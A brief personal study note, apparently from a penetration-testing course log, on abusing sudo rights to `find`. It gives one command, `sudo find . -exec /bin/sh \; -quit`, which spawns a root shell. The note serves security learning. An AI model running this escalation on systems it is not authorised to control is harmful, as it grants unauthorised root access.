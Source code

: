 # Exploiting "find"

**author**:: Nathan Acks  
**date**:: 2022-04-21

If `find` can be run with `sudo`, then try `sudo find . -exec /bin/sh \; -quit`.

* [2022-04-20 - ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester](../log/2022-04-20-itprotv-comptia-security-plus-and-tryhackme-jr-penetration-tester.md)
